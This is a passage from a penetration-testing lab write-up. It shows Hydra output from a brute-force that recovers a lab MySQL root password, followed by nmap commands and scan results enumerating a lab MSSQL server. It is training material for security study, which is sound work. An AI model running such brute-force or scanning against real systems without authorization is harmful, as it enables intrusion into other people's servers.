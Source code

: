 ```bash
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.222.16.3:3306/
[3306][mysql] host: 192.222.16.3   login: root   password: catalina
1 of 1 target successfully completed, 1 valid password found
```

<details><summary>Reveal Flag - MySQL server "root" password is: 🚩</summary></details>

## Lab 3 - nmap

>  🔬 [Recon: MSSQL: Nmap Scripts](https://attackdefense.com/challengedetails?cid=2313)
>
>  - Target IP: `10.4.21.27`
>  - `Windows MSSQL` server enumeration with `nmap`

```bash
nmap 10.4.21.27
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    1433/tcp open  ms-sql-s
    3389/tcp open  ms-wbt-server
```

```bash
nmap -sV -sC -p1433 10.4.21.27
```

```bash
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-02-19T17:36:09
|_Not valid after:  2053-02-19T17:36:09
|_ssl-date: 2023-02-19T17:41:06+00:00; -1s from scanner time.

Host script results:
| ms-sql-info: 
|   10.4.21.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```
